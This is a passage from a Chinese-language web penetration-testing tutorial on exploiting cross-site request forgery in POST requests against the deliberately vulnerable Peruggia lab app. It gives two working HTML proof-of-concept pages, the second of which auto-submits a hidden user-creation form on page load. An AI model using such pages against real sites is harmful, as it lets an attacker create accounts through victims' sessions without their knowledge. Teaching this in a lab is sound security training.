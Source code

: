 # 利用 CSRF 缺陷

通过`GET`请求（URL 中发送的参数）利用此漏洞，很容易说服用户浏览到将执行所需操作的恶意链接。另一方面，要利用`POST`请求中的 CSRF 漏洞，需要使用提交请求的表单或脚本创建 HTML 页面。

# 在 POST 请求中利用 CSRF

在本节中，我们将重点讨论如何利用`POST`请求。我们将在本练习中使用 Peruggia 的用户创建功能。第一步是，您需要知道要复制的请求是如何工作的；如果您以管理员身份登录 Peruggia，并在使用 Burp Suite 捕获流量时创建新用户，您可以看到请求如下所示：

![](../images/00192.jpeg)

请求仅包括`newuser`（用户名）和`newuserpass`（密码）参数。因此，一旦确定了进行更改的请求和参数，我们需要执行以下操作：

1.  创建一个 HTML 页面，用这些参数和您想要使用的信息生成请求。
2.  说服用户浏览您的页面并提交请求。后者可能不是必需的，因为您可以让页面自动提交表单。

要实现我们的目标，需要一个复杂的 HTML，如下所示。在此示例中，易受攻击的服务器为`10.7.7.5`：

```
<HTML> 
  <body> 
    <form method="POST" action="http://10.7.7.5/peruggia/index.php?action=account&adduser=1"> 
      <input type="text" value="CSRFuser" name="newuser"> 
      <input type="text" value="password123!" name="newuserpass"> 
      <input type="submit" value="Submit"> 
    </form> 
  </body> 
</HTML> 
```

生成的页面将类似于下面的屏幕截图。底部是 Firefox 开发者工具面板。可使用*F12*键激活：

![](../images/00193.jpeg)

在常规渗透测试中，这可能作为**概念证明**（**PoC**），足以证明存在漏洞。更复杂的版本可能包括欺骗性内容和脚本代码，以便在加载页面后自动提交请求：

```
<HTML> 
  <BODY> 
    ... 
    <!-- include attractive HTML content here --> 
    ... 
    <FORM id="csrf" method="POST" action="http://10.7.7.5/peruggia/index.php?action=account&adduser=1"> 
      <input type="text" value="CSRFuser" name="newuser"> 
      <input type="text" value="password123!" name="newuserpass"> 
      <input type="submit" value="Submit"> 
    </FORM> 
    <SCRIPT>document.getElementById("csrf").submit();</SCRIPT> 
  </BODY> 
</HTML> 
```
